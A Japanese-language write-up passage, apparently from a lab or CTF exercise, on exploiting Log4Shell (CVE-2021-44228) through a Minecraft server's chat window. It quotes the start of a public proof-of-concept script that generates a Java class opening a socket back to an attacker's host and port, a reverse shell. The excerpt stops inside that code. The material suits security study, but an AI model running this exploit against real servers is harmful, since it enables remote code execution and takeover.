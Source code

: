 見たことある画面が起動した

Multiplayerからサーバーを追加してログインする

![](screenshot/2024-06-14_09-52.png)

ワールドに入れた

これでゲームセッションに接続できたのでCtrl＋Tを押すことでチャットウインドウを開いて悪意のあるペイロードを入力できる準備が整った

つづいてlog4jを悪用するPoCを見つけたのでこれを使用する<br>[kozmer/log4j-shell-poc: A Proof-Of-Concept for the CVE-2021-44228 vulnerability. (github.com)](https://github.com/kozmer/log4j-shell-poc)

リポジトリをクローンしてpoc.pyを見てみる

```python
#!/usr/bin/env python3

import argparse
from colorama import Fore, init
import subprocess
import threading
from pathlib import Path
import os
from http.server import HTTPServer, SimpleHTTPRequestHandler

CUR_FOLDER = Path(__file__).parent.resolve()


def generate_payload(userip: str, lport: int) -> None:
    program = """
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Exploit {

    public Exploit() throws Exception {
        String host="%s";
        int port=%d;
```